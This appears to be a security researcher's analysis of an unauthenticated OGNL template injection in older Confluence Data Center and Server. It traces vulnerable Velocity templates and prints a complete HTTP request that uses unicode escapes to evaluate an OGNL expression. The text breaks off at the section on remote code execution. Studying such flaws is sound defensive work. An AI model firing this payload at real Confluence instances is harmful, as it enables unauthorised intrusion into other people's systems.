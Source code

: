 # Overview

### Initial Analysis

A template injection vulnerability on older versions of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance. Customers using an affected version must take immediate action. Most recent supported versions of Confluence Data Center and Server are not affected by this vulnerability as it was ultimately mitigated during regular version updates.

![alt text](/Research_CVE/images/image.png)

Inspecting files that had OGNL-related changes and potential vulnerabilities like dangerous sinks leading to OGNL Injection, such as ``findValue`` and ``translateVariables``, among others. 

### Patch

![alt text](/Research_CVE/images/image-9.png)

# Analysis

### Identifying the Unauthenticated Attack Surface

The actual "views" in Confluence are rendered using Velocity template files. They can be accessed by hitting ``*.vm`` files, and they continue render even user no need to authenticate.

After that, searching for template files that accepted ``$parameters`` and then passed them to potentially dangerous sinks. We identified several files that directly passed the parameter values to ``$ognl.findValue`` or ``$stack.findValue``. For instance, one such file is ``confluence/template/xhtml/pagelist.vm``:

```java
#set ($pageList = $stack.findValue($parameters.pages))
```

Set up a breakpoint to debug at ``findValue``. However, when we attempted to access ``/confluence/template/xhtml/pagelist.vm`` with ``pages`` param, was not triggered.

Maybe ``$parameters.pages`` be sent by an Object instead string. Add the double quotes around ``$parameters.pages``. It would be worked.

```java
#set ($pageList = $stack.findValue("$parameters.pages"))
```

Next, look for any ``findValue`` that take in ``$parameters`` inside double quotes. And we found ``confluence/template/aui/text-inline.vm``.

```java
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
```

### OGNL

Next, we put a breakpoint on ``getText`` as well to be sure we are able to reach there and It worked. 

![alt text](/Research_CVE/images/image-5.png)

Next, breaking out of the ``getText`` function and append our OGNL expression ``#{3*33}`` but it was HTML encoded. Use some trick like unicode escapes to break out and it worked.

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

label=test\u0027%2b#{3*33}%2b\u0027
```

![alt text](/Research_CVE/images/image-6.png)

### RCE via OGNL injection

According to [bypass OGNL](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)-,For%20Velocity%3A,-.KEY_velocity.struts2.context)

